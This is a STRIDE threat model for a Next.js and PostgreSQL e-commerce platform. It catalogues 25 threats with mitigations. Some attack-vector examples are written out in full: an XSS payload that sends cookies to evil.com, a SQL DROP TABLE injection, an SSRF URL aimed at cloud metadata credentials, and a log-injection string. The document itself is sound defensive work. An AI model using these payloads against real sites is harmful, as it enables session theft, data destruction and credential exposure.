

# NAVA CREATIONS — Threat Model

**Version:** 1.0  
**Date:** 2026-11-11  
**Author:** Security Engineering (Phase 0)  
**Methodology:** STRIDE  
**Scope:** Next.js App Router + PostgreSQL + Prisma ORM e-commerce platform

---

## Table of Contents

1. [Assets to Protect](#1-assets-to-protect)
2. [Trust Boundaries](#2-trust-boundaries)
3. [Data Flow Diagram](#3-data-flow-diagram)
4. [Threat Catalogue](#4-threat-catalogue)
5. [Risk Matrix](#5-risk-matrix)
6. [Control Summary](#6-control-summary)

---

## 1. Assets to Protect

| Asset ID | Asset | Classification | Location | Business Value |
|----------|-------|---------------|----------|---------------|
| A01 | Customer PII (name, email, phone, address) | Confidential | PostgreSQL `customers`, `addresses` tables | Regulatory (DPDPA 2023), Trust |
| A02 | Payment data (order amounts, payment IDs) | Confidential | PostgreSQL `orders`, `payments` tables | Financial, Regulatory |
| A03 | Raw payment credentials (cards, UPI PINs) | **Never stored** | — | Out of scope (Razorpay hosted) |
| A04 | Admin credentials (password hashes, TOTP secrets) | Secret | PostgreSQL `admin_users` table | Business continuity |
| A05 | Product & pricing data | Internal | PostgreSQL `products`, `variants` tables | Competitive advantage |
| A06 | Order history & transaction records | Confidential | PostgreSQL `orders` tables | Legal (GST retention 7 years) |
| A07 | Business financial data (revenue, margins) | Confidential | PostgreSQL, analytics | Business-critical |
| A08 | Customer enquiry attachments (reference photos) | Confidential | Private object storage bucket | Privacy |
| A09 | Product images | Public (post-approval) | CDN (public bucket) | Brand |
| A10 | Session tokens | Secret | HTTP-only cookies (browser) | Access control |
| A11 | API keys & secrets (payment gateway, SMTP, WhatsApp) | Secret | Environment variables / secrets manager | Business operations |
| A12 | Webhook signing secrets (Razorpay, Cashfree) | Secret | Environment variables | Payment integrity |
| A13 | Audit logs | Sensitive | PostgreSQL `audit_logs` / log aggregator | Compliance, forensics |
| A14 | Coupon codes & discount rules | Internal | PostgreSQL `coupons` table | Revenue |
| A15 | Customer wishlist & behavioural data | Confidential | PostgreSQL | Privacy |

---

## 2. Trust Boundaries

```
TB1: Public Internet ↔ CDN / Load Balancer
     - ALL traffic from the internet is untrusted
     - CDN terminates TLS; passes requests to Next.js

TB2: CDN / Load Balancer ↔ Next.js Application
     - Internal network; still verify via allowed-host headers
     - IP allowlist for health-check endpoints

TB3: Next.js Application ↔ PostgreSQL
     - Private network only; PostgreSQL never publicly accessible
     - Application connects with least-privilege DB user

TB4: Next.js Application ↔ Razorpay / Cashfree (Payment Gateway)
     - HTTPS outbound; gateway responses must be HMAC-verified
     - Webhook callbacks arrive over TB1 — always untrusted input

TB5: Next.js Application ↔ Object Storage (S3-compatible)
     - Signed upload/download URLs; application never stores objects in-memory
     - Customer uploads → private bucket; product images → public CDN bucket

TB6: Next.js Application ↔ External Services (email, WhatsApp, shipping)
     - Outbound API calls; credentials in env vars only
     - Shipping webhook callbacks treated as untrusted

TB7: Admin session ↔ Customer session
     - Separate session namespaces; admin routes under /admin/* protected by RBAC middleware
     - Admin session cookies not readable by customer routes and vice-versa

TB8: Webhook Receiver endpoint
     - Public endpoint (/api/webhooks/*) but validates HMAC signature before processing
     - All webhook payload data treated as untrusted until signature verified
```

---

## 3. Data Flow Diagram



**Threat injection points annotated:**
- 🔴 `CB → CF` : T01, T02, T06, T07, T16, T20, T22
- 🔴 `AB → CF` : T04, T21
- 🔴 `WH (Webhook)` : T10
- 🟠 `SR/SA → PG` : T03, T05, T12, T15, T23
- 🟠 `File uploads` : T09
- 🟡 `Checkout flow` : T11, T13, T14

---

## 4. Threat Catalogue

> [!CAUTION]
> All High-Impact × High-Likelihood threats (marked **H×H**) are **P0 launch blockers**. The platform must not go live without mitigations in place.

### STRIDE Key
- **S** = Spoofing | **T** = Tampering | **R** = Repudiation | **I** = Information Disclosure | **D** = Denial of Service | **E** = Elevation of Privilege

---

### Authentication & Account Threats

| Field | T01 |
|-------|-----|
| **Threat ID** | T01 |
| **Category (STRIDE)** | Spoofing |
| **Title** | Credential Stuffing / Brute Force on Login |
| **Description** | Attacker uses leaked credential lists (or automated guessing) to compromise customer or admin accounts. |
| **Attack Vector** | POST /api/auth/login — automated HTTP requests with common password lists |
| **Likelihood** | High |
| **Impact** | High |
| **Risk Rating** | 🔴 Critical |
| **Mitigations** | (1) Progressive rate limiting: 5 attempts/min per IP + per username; exponential back-off. (2) CAPTCHA after 3 failed attempts (hCaptcha/Cloudflare Turnstile). (3) Mandatory TOTP MFA for all admin accounts (Owner: required; others: required). (4) Argon2id or bcrypt cost-12 password hashing to slow offline cracking. (5) Alert on unusual login patterns. (6) HaveIBeenPwned API check on registration and password change. |
| **Residual Risk** | Low — MFA means even compromised passwords alone are insufficient for admins. |

---

| Field | T02 |
|-------|-----|
| **Threat ID** | T02 |
| **Category (STRIDE)** | Spoofing |
| **Title** | Account Takeover via Password Reset Abuse |
| **Description** | Attacker exploits weak password reset flow — predictable tokens, long-lived tokens, no email verification, or lack of rate limiting — to take over accounts. |
| **Attack Vector** | POST /api/auth/reset-password; email interception; token enumeration |
| **Likelihood** | Medium |
| **Impact** | High |
| **Risk Rating** | 🟠 High |
| **Mitigations** | (1) Cryptographically random 32-byte tokens (not sequential IDs). (2) Token expiry: 15 minutes. (3) Single-use: invalidate token immediately upon use. (4) Rate limit: 3 reset requests per email per hour. (5) Notify user via email of password change. (6) Invalidate all active sessions on password reset. (7) Never reveal whether email exists (generic "if the email is registered…" message). |
| **Residual Risk** | Low |

---

### Access Control Threats

| Field | T03 |
|-------|-----|
| **Threat ID** | T03 |
| **Category (STRIDE)** | Elevation of Privilege / Information Disclosure |
| **Title** | Broken Access Control — Customer Accessing Other Customer Data |
| **Description** | Authenticated customer accesses orders, addresses, or personal data belonging to another customer by manipulating IDs in URLs or API payloads. |
| **Attack Vector** | GET /api/orders/[orderId] — replace orderId with another customer's order ID |
| **Likelihood** | Medium |
| **Impact** | High |
| **Risk Rating** | 🟠 High |
| **Mitigations** | (1) Every server-side query for order/address/wishlist MUST include `WHERE customer_id = session.customerId`. (2) Use UUIDs (not sequential integers) for all customer-facing IDs — raises bar for guessing. (3) Automated tests: verify cross-customer access returns 403. (4) Server Action and API route ownership assertions before returning data. |
| **Residual Risk** | Low |

---

| Field | T04 |
|-------|-----|
| **Threat ID** | T04 |
| **Category (STRIDE)** | Elevation of Privilege |
| **Title** | Admin Privilege Escalation — Support Staff Accessing Admin Functions |
| **Description** | Lower-privileged admin role (e.g., Support Staff) accesses restricted admin functions (e.g., bulk delete products, view financial reports, modify RBAC) belonging to higher roles. |
| **Attack Vector** | Direct URL navigation to /admin/settings/users; API calls with valid but insufficient session |
| **Likelihood** | Medium |
| **Impact** | High |
| **Risk Rating** | 🟠 High |
| **Mitigations** | (1) RBAC check at both middleware AND service layer — middleware for routing, service layer for data operations. (2) Explicit permission map: define permitted actions per role (Owner, Store Manager, Product Manager, Order Manager, Content Editor, Support Staff). (3) Default deny: any role not explicitly granted permission is denied. (4) Audit log every admin action with role at time of action. (5) Test each role boundary with automated role-switching tests. |
| **Residual Risk** | Low |

---

### Injection Threats

| Field | T05 |
|-------|-----|
| **Threat ID** | T05 |
| **Category (STRIDE)** | Tampering / Information Disclosure |
| **Title** | SQL Injection via Product Search, Filters, Order Queries |
| **Description** | Attacker injects SQL through search terms, filter parameters, or sort fields to dump the database, bypass authentication, or corrupt data. |
| **Attack Vector** | GET /api/products?search='; DROP TABLE products;-- |
| **Likelihood** | Medium |
| **Impact** | High |
| **Risk Rating** | 🟠 High |
| **Mitigations** | (1) **Always** use Prisma parameterised queries — never string-concatenated SQL. (2) If raw SQL is needed (e.g., full-text search), use Prisma `$queryRaw` with tagged template literals (not `$queryRawUnsafe`). (3) Allowlist valid sort columns server-side. (4) Input validation with Zod: reject inputs containing SQL metacharacters. (5) DB user has SELECT/INSERT/UPDATE/DELETE only — no DROP, CREATE, TRUNCATE. |
| **Residual Risk** | Very Low — Prisma parameterisation eliminates classic SQLi. |

---

| Field | T06 |
|-------|-----|
| **Threat ID** | T06 |
| **Category (STRIDE)** | Tampering |
| **Title** | Cross-Site Scripting (XSS) via Product Descriptions, Reviews, Blog Content |
| **Description** | Attacker injects malicious scripts into user-generated or admin-managed content that execute in other users' browsers — stealing session cookies, redirecting users, or defacing the site. |
| **Attack Vector** | Product description field containing `<script>document.location='https://evil.com?c='+document.cookie</script>` |
| **Likelihood** | Medium |
| **Impact** | High |
| **Risk Rating** | 🟠 High |
| **Mitigations** | (1) React JSX auto-escapes content — do NOT use `dangerouslySetInnerHTML` without sanitisation. (2) For rich text (admin-authored): sanitise with DOMPurify server-side before storage and before render. (3) Content Security Policy (CSP) header with strict `script-src 'self'` — eliminates most XSS even if markup leaks. (4) Customer reviews: plain text only (no HTML/Markdown rendering). (5) HTTP-only cookies mean XSS cannot read session tokens directly. |
| **Residual Risk** | Low |

---

| Field | T07 |
|-------|-----|
| **Threat ID** | T07 |
| **Category (STRIDE)** | Tampering |
| **Title** | Cross-Site Request Forgery (CSRF) on State-Changing Operations |
| **Description** | Attacker tricks an authenticated user into submitting a request that changes state (e.g., place order, change email, cancel order) from a malicious third-party site. |
| **Attack Vector** | Malicious site auto-submits form to `https://nava.in/api/orders` using victim's cookies |
| **Likelihood** | Low |
| **Impact** | High |
| **Risk Rating** | 🟡 Medium |
| **Mitigations** | (1) `SameSite=Strict` on session cookies — browsers do not send cookies on cross-origin requests. (2) Next.js Server Actions use origin header validation built-in. (3) For custom API routes: validate `Origin` or `Referer` header on state-changing requests. (4) Double-submit CSRF token for any form that cannot use Server Actions. |
| **Residual Risk** | Low — SameSite=Strict is a strong primary control. |

---

| Field | T08 |
|-------|-----|
| **Threat ID** | T08 |
| **Category (STRIDE)** | Information Disclosure / Tampering |
| **Title** | SSRF via Image URL Inputs or Webhook Callbacks |
| **Description** | Attacker supplies a URL pointing to an internal service (e.g., `http://169.254.169.254/` AWS metadata, `http://localhost:5432/`) in an image URL field or as a webhook endpoint, causing the server to make requests on the attacker's behalf. |
| **Attack Vector** | Product image URL field set to `http://169.254.169.254/latest/meta-data/iam/security-credentials/` |
| **Likelihood** | Low |
| **Impact** | High |
| **Risk Rating** | 🟡 Medium |
| **Mitigations** | (1) Do not accept remote image URLs from users — require file upload instead. (2) If URL fetch is required (e.g., import from supplier): validate URL scheme (https only), hostname against an allowlist, block private/loopback IP ranges. (3) Webhook URLs are configured by admins only, not user-supplied. (4) Outbound network egress firewall rules blocking RFC-1918 IP ranges at infrastructure level. |
| **Residual Risk** | Low |

---

### File Upload Threats

| Field | T09 |
|-------|-----|
| **Threat ID** | T09 |
| **Category (STRIDE)** | Tampering / Elevation of Privilege |
| **Title** | Malicious File Upload — PHP Shell, Oversized Files, MIME Spoofing |
| **Description** | Attacker uploads a web shell disguised as an image, an oversized file to exhaust storage/memory, or a file with a spoofed MIME type to bypass validation. |
| **Attack Vector** | POST /api/enquiries/upload — file named `shell.php` with Content-Type: image/jpeg |
| **Likelihood** | Medium |
| **Impact** | High |
| **Risk Rating** | 🟠 High |
| **Mitigations** | (1) Validate MIME type server-side by reading file magic bytes (not Content-Type header or file extension). (2) Allowlist: `image/jpeg`, `image/png`, `image/webp` only. (3) Max file size enforced server-side: 5MB product images, 10MB enquiry attachments. (4) Rename all uploaded files to UUID-based names before storage — never use user-supplied filenames. (5) Store uploaded files in object storage (S3-compatible) — never on the application server filesystem. (6) Customer enquiry attachments in private bucket — never publicly accessible via direct URL. (7) Product images processed through image transcoding pipeline before publication — strips EXIF data and malicious payloads. (8) Consider antivirus scanning (ClamAV or cloud-based) for enquiry attachments. (9) Files served from a separate domain (not app domain) to prevent cookie/CORS attacks. |
| **Residual Risk** | Low |

---

### Payment Threats

| Field | T10 |
|-------|-----|
| **Threat ID** | T10 |
| **Category (STRIDE)** | Spoofing / Tampering |
| **Title** | Payment Webhook Spoofing — Fake payment.captured Events |
| **Description** | Attacker sends a crafted HTTP POST to the webhook endpoint claiming a payment was captured, triggering order fulfilment without actual payment. |
| **Attack Vector** | POST /api/webhooks/razorpay — JSON body with `event: payment.captured` and a spoofed order ID |
| **Likelihood** | Medium |
| **Impact** | High |
| **Risk Rating** | 🔴 Critical |
| **Mitigations** | (1) **Verify HMAC-SHA256 signature** on every webhook request before processing — using gateway-provided signing secret. (2) Return 400 immediately on signature mismatch (before any business logic). (3) Store processed event IDs — reject duplicates (idempotency). (4) Cross-verify payment status with gateway API before marking order as paid. (5) Webhook endpoint rate-limited and not publicly documented. |
| **Residual Risk** | Very Low |

---

| Field | T11 |
|-------|-----|
| **Threat ID** | T11 |
| **Category (STRIDE)** | Tampering |
| **Title** | Payment Amount Manipulation — Client-Side Price Tampering |
| **Description** | Attacker modifies the price or discount amounts in the checkout request (via browser DevTools or proxy) to pay less than the actual order total. |
| **Attack Vector** | Intercept POST /api/checkout, change `amount: 999900` to `amount: 100` |
| **Likelihood** | High |
| **Impact** | High |
| **Risk Rating** | 🔴 Critical |
| **Mitigations** | (1) **Never trust client-supplied amounts.** Server calculates total from: `SUM(product.price × quantity)` from DB for each cart item at order creation time. (2) Store the authoritative amount in the `orders` table before initiating payment. (3) Razorpay order created server-side with the amount from the DB record. (4) On payment callback: verify `payment.amount === order.amount` from DB before fulfilling. (5) Log any amount discrepancy as a security alert. |
| **Residual Risk** | Very Low |

---

| Field | T12 |
|-------|-----|
| **Threat ID** | T12 |
| **Category (STRIDE)** | Tampering |
| **Title** | Inventory Race Condition — Two Buyers Purchasing Last Item |
| **Description** | Two concurrent checkout requests succeed for the same last-in-stock item, resulting in overselling and fulfilment failure. |
| **Attack Vector** | Concurrent POST /api/checkout from two browsers for the same SKU with quantity 1 (stock = 1) |
| **Likelihood** | Medium |
| **Impact** | Medium |
| **Risk Rating** | 🟡 Medium |
| **Mitigations** | (1) Use PostgreSQL row-level locking (`SELECT ... FOR UPDATE`) when decrementing stock during checkout. (2) Stock reservation pattern: reserve stock at order creation, release if payment fails/times out. (3) Atomic `UPDATE inventory SET quantity = quantity - 1 WHERE sku_id = ? AND quantity >= 1` — check rows affected = 1. (4) Idempotent checkout endpoint. |
| **Residual Risk** | Low |

---

| Field | T13 |
|-------|-----|
| **Threat ID** | T13 |
| **Category (STRIDE)** | Tampering |
| **Title** | Coupon Abuse — Code Sharing / Unlimited Usage Exploitation |
| **Description** | Attacker or customers share coupon codes publicly, create multiple accounts to exceed per-user limits, or exploit race conditions to use a coupon more times than allowed. |
| **Attack Vector** | Multiple accounts created with different emails, all using the same coupon code |
| **Likelihood** | High |
| **Impact** | Medium |
| **Risk Rating** | 🟠 High |
| **Mitigations** | (1) Store coupon usage count server-side — `UPDATE coupons SET used_count = used_count + 1 WHERE code = ? AND used_count < max_uses` atomically. (2) Per-customer usage limit enforced via `coupon_uses` join table. (3) Coupon validation happens inside the same DB transaction as order creation. (4) Rate-limit coupon validation attempts per session. (5) Single-use coupons: invalidate immediately upon application. (6) Consider phone number verification for coupon eligibility — harder to create mass accounts. |
| **Residual Risk** | Low |

---

| Field | T14 |
|-------|-----|
| **Threat ID** | T14 |
| **Category (STRIDE)** | Tampering |
| **Title** | Order Total Manipulation in Checkout Request |
| **Description** | Attacker modifies the order total, applied discounts, or shipping fees in the checkout request body. |
| **Attack Vector** | Intercept checkout POST, modify `discountAmount: 0` to `discountAmount: 5000` |
| **Likelihood** | Medium |
| **Impact** | High |
| **Risk Rating** | 🟠 High |
| **Mitigations** | (1) Server recomputes all amounts (subtotal, discount, shipping, tax) from DB at order creation — never accept from client. (2) Shipping cost from shipping provider API or rate table on server. (3) GST calculated server-side based on product category. (4) Final total written to `orders.total_amount` before Razorpay order creation. |
| **Residual Risk** | Very Low |

---

### Insecure Direct Object Reference

| Field | T15 |
|-------|-----|
| **Threat ID** | T15 |
| **Category (STRIDE)** | Information Disclosure |
| **Title** | IDOR — Accessing Orders by Guessing Order ID |
| **Description** | Sequential integer order IDs allow an attacker to enumerate and access other customers' orders by incrementing the ID in URLs. |
| **Attack Vector** | GET /api/orders/1001, /1002, /1003 … — iterating through sequential IDs |
| **Likelihood** | Medium |
| **Impact** | High |
| **Risk Rating** | 🟠 High |
| **Mitigations** | (1) Use UUIDs (v4 or v7) as the primary key for all customer-facing records (orders, addresses, enquiries). (2) Every server-side lookup MUST include `WHERE customer_id = session.customerId` ownership check regardless of ID format. (3) Return 404 (not 403) on unauthorised access to avoid leaking existence of records. |
| **Residual Risk** | Low |

---

### Session Management

| Field | T16 |
|-------|-----|
| **Threat ID** | T16 |
| **Category (STRIDE)** | Spoofing |
| **Title** | Session Fixation / Session Hijacking |
| **Description** | Attacker fixes a session ID before login, then uses it after the victim authenticates. Or attacker steals a session cookie via XSS or network interception. |
| **Attack Vector** | Pre-auth session cookie preserved across login; or XSS reading `document.cookie` |
| **Likelihood** | Low |
| **Impact** | High |
| **Risk Rating** | 🟡 Medium |
| **Mitigations** | (1) Issue a new session ID immediately after login (session rotation). (2) `HttpOnly` flag: JavaScript cannot read session cookies. (3) `Secure` flag: cookies only sent over HTTPS. (4) `SameSite=Strict`: prevents cross-origin cookie submission. (5) Session expiry: 24 hours for customers, 8 hours for admins, with sliding window. (6) Absolute session timeout: 7 days regardless of activity. (7) Server-side session invalidation on logout. |
| **Residual Risk** | Low |

---

### Information Disclosure

| Field | T17 |
|-------|-----|
| **Threat ID** | T17 |
| **Category (STRIDE)** | Information Disclosure |
| **Title** | Sensitive Data Exposure — Stack Traces and Error Messages |
| **Description** | Unhandled exceptions return stack traces, database error messages (table names, column names, query structure), or server paths to end users. |
| **Attack Vector** | Trigger a 500 error (malformed input, DB constraint violation) — read response body for internals |
| **Likelihood** | Medium |
| **Impact** | Medium |
| **Risk Rating** | 🟡 Medium |
| **Mitigations** | (1) Global error boundary in Next.js: catch all unhandled errors, log internally, return generic user-facing message. (2) `NODE_ENV=production` disables Next.js detailed error overlay. (3) Never include raw Prisma/PostgreSQL errors in API responses. (4) Log full errors to server-side log aggregator (not to client). (5) Error response format: `{ "error": "An unexpected error occurred", "requestId": "..." }` — no stack traces. |
| **Residual Risk** | Low |

---

### Supply Chain

| Field | T18 |
|-------|-----|
| **Threat ID** | T18 |
| **Category (STRIDE)** | Tampering |
| **Title** | Dependency Supply Chain Compromise |
| **Description** | A malicious or compromised npm package introduces a backdoor, data exfiltration, or remote code execution into the application. |
| **Attack Vector** | Typosquatted npm package installed; or legitimate package compromised upstream |
| **Likelihood** | Low |
| **Impact** | High |
| **Risk Rating** | 🟡 Medium |
| **Mitigations** | (1) `npm audit` in CI pipeline — block deployment on critical/high vulnerabilities. (2) GitHub Dependabot automated PRs for dependency updates. (3) Lock file (`package-lock.json`) committed and verified in CI. (4) Prefer packages with high download counts, active maintenance, known publishers. (5) Review `postinstall` scripts — disable with `--ignore-scripts` where possible. (6) Consider Snyk or Socket.dev for deeper supply chain analysis. |
| **Residual Risk** | Low |

---

### Secret Exposure

| Field | T19 |
|-------|-----|
| **Threat ID** | T19 |
| **Category (STRIDE)** | Information Disclosure |
| **Title** | Secret Exposure — Env Vars in Client Bundle / Git History |
| **Description** | API keys, database URLs, or webhook secrets accidentally bundled into the Next.js client JavaScript bundle, or committed to git history. |
| **Attack Vector** | Using `NEXT_PUBLIC_` prefix on a secret; or `.env` file committed to git |
| **Likelihood** | Medium |
| **Impact** | High |
| **Risk Rating** | 🔴 Critical |
| **Mitigations** | (1) **Never** prefix secrets with `NEXT_PUBLIC_` — that exposes them in the browser bundle. (2) Server-only secrets accessed exclusively in Server Components, Server Actions, and API routes. (3) `.env` and `.env.local` in `.gitignore`. (4) Use `git-secrets` or `gitleaks` pre-commit hook to block secret commits. (5) Scan git history with `gitleaks` or `truffleHog` before first deploy. (6) Rotate any secret ever exposed immediately. (7) Use Vercel environment variables dashboard or Doppler for secrets management in production. |
| **Residual Risk** | Low |

---

### Availability

| Field | T20 |
|-------|-----|
| **Threat ID** | T20 |
| **Category (STRIDE)** | Denial of Service |
| **Title** | DoS on Search Endpoint, Image Processing, Checkout |
| **Description** | Attacker floods computationally expensive endpoints (full-text search, image upload processing, checkout with payment gateway calls) to exhaust server resources and degrade availability. |
| **Attack Vector** | High-frequency automated requests to /api/products/search with complex queries |
| **Likelihood** | Medium |
| **Impact** | Medium |
| **Risk Rating** | 🟡 Medium |
| **Mitigations** | (1) Rate limiting at CDN/edge layer (Cloudflare WAF or Vercel Edge). (2) Per-endpoint rate limits: search 60 req/min, checkout 10 req/min, login 5 req/min. (3) Image processing: enforce max dimensions and file size before processing; timeout image operations. (4) Database query timeouts: `statement_timeout = 10s` in PostgreSQL. (5) Connection pooling (PgBouncer / Neon serverless) limits DB connections under load. (6) Cloudflare Bot Fight Mode / CAPTCHA for checkout. |
| **Residual Risk** | Low |

---

### Admin Access

| Field | T21 |
|-------|-----|
| **Threat ID** | T21 |
| **Category (STRIDE)** | Elevation of Privilege |
| **Title** | Admin Dashboard Exposed Without Sufficient Auth |
| **Description** | Admin panel accessible from public internet with weak or single-factor authentication, or no authentication at all due to misconfigured routes. |
| **Attack Vector** | Direct navigation to /admin — if middleware misconfigured, page renders without auth |
| **Likelihood** | Low |
| **Impact** | High |
| **Risk Rating** | 🟡 Medium |
| **Mitigations** | (1) Dedicated middleware protecting all `/admin/*` routes — deny by default. (2) Mandatory TOTP MFA for all admin logins. (3) Admin login separate from customer login. (4) Consider IP allowlisting the admin dashboard (home/office IP) for additional layer. (5) Automated test: verify unauthenticated GET /admin returns 302 to login, not 200. |
| **Residual Risk** | Low |

---

### Bot & Scraping

| Field | T22 |
|-------|-----|
| **Threat ID** | T22 |
| **Category (STRIDE)** | Information Disclosure |
| **Title** | Bot Scraping of Product Catalogue and Prices |
| **Description** | Competitor bots scrape the entire product catalogue, prices, and inventory levels for competitive intelligence. |
| **Attack Vector** | Automated HTTP client crawling /api/products with pagination parameters |
| **Likelihood** | High |
| **Impact** | Low |
| **Risk Rating** | 🟢 Low |
| **Mitigations** | (1) Rate limit product listing API (60 req/min per IP). (2) `robots.txt` disallow API endpoints. (3) Cloudflare Bot Management or hCaptcha on data-heavy endpoints. (4) Render prices on server (SSR) — slightly harder to scrape than raw API. (5) Monitor unusual traffic patterns for investigation. |
| **Residual Risk** | Medium — competitive scraping cannot be fully prevented; acceptable risk. |

---

### Data Breach

| Field | T23 |
|-------|-----|
| **Threat ID** | T23 |
| **Category (STRIDE)** | Information Disclosure |
| **Title** | Database Exfiltration |
| **Description** | Attacker with application access (via SQLi, compromised credentials, or server compromise) exfiltrates the entire customer database including PII, order history, and hashed passwords. |
| **Attack Vector** | SQLi → dump all tables; or compromised DB credentials → remote PostgreSQL connection |
| **Likelihood** | Low |
| **Impact** | High |
| **Risk Rating** | 🟡 Medium |
| **Mitigations** | (1) PostgreSQL not publicly accessible — private network only. (2) Application DB user: SELECT/INSERT/UPDATE/DELETE on specific tables only. (3) Parameterised queries prevent SQLi. (4) Connection pooler as intermediary — application never connects directly to PostgreSQL primary. (5) PII encryption at rest for highly sensitive fields (optional, adds complexity). (6) DB activity monitoring / query logging for anomaly detection. (7) VPC/private network between app and DB. |
| **Residual Risk** | Low |

---

### Backup Security

| Field | T24 |
|-------|-----|
| **Threat ID** | T24 |
| **Category (STRIDE)** | Information Disclosure |
| **Title** | Insecure Backup Access |
| **Description** | Database backups stored in an accessible location (public S3 bucket, unencrypted, or with shared credentials) allow full data exfiltration without touching the application. |
| **Attack Vector** | Public S3 bucket containing `nava-db-backup-2026-11-11.sql` — downloaded by anyone |
| **Likelihood** | Low |
| **Impact** | High |
| **Risk Rating** | 🟡 Medium |
| **Mitigations** | (1) Backups stored in private bucket with no public access. (2) Server-side encryption at rest (AES-256). (3) Separate IAM credentials for backup access — not the same as application credentials. (4) Backup access logged and alerted. (5) Test restores quarterly to verify backup integrity. (6) Backup retention: 30 days daily + 12 months monthly. |
| **Residual Risk** | Low |

---

### Log Injection

| Field | T25 |
|-------|-----|
| **Threat ID** | T25 |
| **Category (STRIDE)** | Tampering / Repudiation |
| **Title** | Log Injection via Attacker-Controlled Data in Audit Logs |
| **Description** | Attacker inserts newlines, control characters, or fake log entries into user-controlled fields that are written to audit logs, polluting forensic records. |
| **Attack Vector** | Product name set to `Bangle\n[2026-11-11 00:00:00] ADMIN admin@nava.in deleted all orders` |
| **Likelihood** | Low |
| **Impact** | Medium |
| **Risk Rating** | 🟢 Low |
| **Mitigations** | (1) Log user-controlled data as structured JSON fields — never interpolated into log strings. (2) Escape/strip newlines and control characters before writing to any log. (3) Structured logging (e.g., Pino with JSON output) prevents injection by design. (4) Logs shipped to append-only log aggregator (Datadog, Logtail, Axiom) — cannot be modified after ingestion. |
| **Residual Risk** | Low |

---

## 5. Risk Matrix

| | **Low Impact** | **Medium Impact** | **High Impact** |
|---|---|---|---|
| **High Likelihood** | T22 (Bot scraping) | T13 (Coupon abuse) | T01 (Credential stuffing), T11 (Amount tamper) |
| **Medium Likelihood** | — | T12 (Race condition), T17 (Error disclosure) | T02, T03, T04, T05, T06, T09, T14, T15 |
| **Low Likelihood** | T25 (Log injection) | T07, T08, T16, T18, T20, T21, T23, T24 | T10 (Webhook spoof), T19 (Secret exposure) |

**🔴 Critical (H×H or L×H with critical business impact):** T01, T10, T11, T19  
**🟠 High (M×H or H×M):** T02, T03, T04, T05, T06, T09, T13, T14, T15  
**🟡 Medium:** T07, T08, T12, T16, T17, T18, T20, T21, T23, T24  
**🟢 Low:** T22, T25  

---

## 6. Control Summary

| Control | Threats Addressed | Implementation |
|---------|------------------|----------------|
| Rate limiting (edge + application) | T01, T02, T13, T20, T22 | Cloudflare WAF + `@upstash/ratelimit` |
| MFA (TOTP) | T01, T04, T21 | `otplib` + TOTP enrollment flow |
| bcrypt / Argon2id password hashing | T01 | `bcryptjs` cost 12 or `argon2` |
| Parameterised queries (Prisma) | T05 | Prisma ORM — parameterised by default |
| Output encoding + CSP | T06 | Next.js JSX + `next/headers` CSP |
| SameSite=Strict cookies | T07, T16 | `next-auth` or custom session config |
| File type validation (magic bytes) | T09 | `file-type` npm package |
| HMAC webhook verification | T10 | Razorpay `validateWebhookSignature` |
| Server-side amount calculation | T11, T14 | Server Action / API route only |
| DB row-level locking | T12 | `SELECT ... FOR UPDATE` in Prisma `$transaction` |
| UUID identifiers | T15 | Prisma `@default(uuid())` or `cuid()` |
| HttpOnly + Secure cookies | T16 | Cookie flags in session config |
| Generic error responses | T17 | Global Next.js error boundary |
| Dependabot + npm audit in CI | T18 | GitHub Actions + `.github/dependabot.yml` |
| `NEXT_PUBLIC_` guard + gitleaks | T19 | Pre-commit hook + CI secret scan |
| DB private network + least-privilege user | T23 | PostgreSQL config + IAM |
| Encrypted private backup bucket | T24 | S3 bucket policy + SSE |
| Structured JSON logging | T25 | Pino logger |

---

*Threat model should be reviewed and updated when: new features added, integrations changed, security incidents occur, or at least annually.*
